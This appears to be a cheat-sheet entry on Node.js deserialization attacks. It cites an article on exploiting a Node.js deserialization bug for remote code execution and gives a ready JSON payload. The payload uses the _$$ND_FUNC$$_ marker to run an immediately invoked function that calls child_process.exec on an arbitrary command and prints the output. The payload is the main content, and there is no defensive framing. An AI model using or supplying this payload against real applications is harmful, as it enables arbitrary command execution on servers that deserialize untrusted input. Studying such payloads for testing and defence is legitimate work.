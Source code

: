 #deserialization #nodejs 

## Resource
https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

## Command execution
```json
{"rce":"_$$ND_FUNC$$_function(){\n    require('child_process').exec('MY_COMMAND', function(error, stdout, stderr) { console.log(stdout) });\n  }()"}
```